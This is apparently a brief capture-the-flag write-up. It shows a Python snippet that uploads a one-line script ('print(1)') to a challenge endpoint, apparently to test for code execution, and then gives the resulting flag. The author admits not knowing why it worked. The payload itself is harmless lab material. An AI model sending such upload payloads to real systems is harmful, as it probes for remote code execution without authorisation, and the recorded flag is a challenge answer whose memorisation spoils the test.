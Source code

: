 ```yaml
---
created: 2024-08-08T08:22
updated: 2024-08-17T20:13
points: 225
---
```


Honestly IDK how tf I solved this.

Was just testing the endpoint.

```python
from io import BytesIO
import requests

payload = b"""
print(1)
""".strip()

print(requests.post('https://bugcrowd-i-am-watching-you.chals.io/upload', files={'file1': BytesIO(payload)}).text)
```

```flag
flag{the_magic_word}
```

